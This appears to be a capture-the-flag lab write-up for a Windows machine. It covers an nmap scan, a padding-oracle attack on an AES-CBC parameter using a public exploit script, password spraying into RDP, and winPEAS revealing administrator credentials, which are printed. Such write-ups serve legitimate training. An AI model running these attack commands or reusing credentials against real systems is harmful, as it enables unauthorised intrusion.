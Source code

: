 #Pwned
```IP
192.168.167.119
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.167.119 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 125 Microsoft ftpd       
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).                 
|_http-server-header: Microsoft-IIS/10.0
| http-methods:                            
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2290/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods:                  
|   Supported Methods: OPTIONS TRACE GET HEAD POST    
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Microsoft-IIS/10.0     
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```

## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219152843.png?raw=true)
## HTTP 2290
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219153318.png?raw=true)
We also find the next message
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219160514.png?raw=true)
```
AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488

Victor's TODO: Need to add authentication eventually..
```
If you interact with the c parameter it will respond with a 0 with any string excepto for the ciphertext, which will retrieve a 1:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220094911.png?raw=true)
# Exploitation
Searching for AES-256-CBC-PKCS7 exploit we get the following github page which contains an exploit for the padding oracle attack.
https://github.com/mpgn/Padding-oracle-attack
```
python exploit.py -c '4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488' -l 16 --host 192.168.167.119:2290 -u /?c= -v --error '<span id="MyLabel">0</span>'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220095604.png?raw=true)
It cracked the password!
```
WormAloeVat7
```
Spraying the password we get access via RDP!

# PrivEsc

## Manual

## Automated

### Peass
If we run winpeas we will find some powershell events which haven't been deleted. They contain administrator credentials and the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220100734.png?raw=true)
```
EverywayLabelWrap375
```
Indeed we can execute a powershell as administrator with the latter password, and assess that the flag is indeed the one retrieved by winpeas:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220101033.png?raw=true)
### Mimikatz

# Lateral Movement

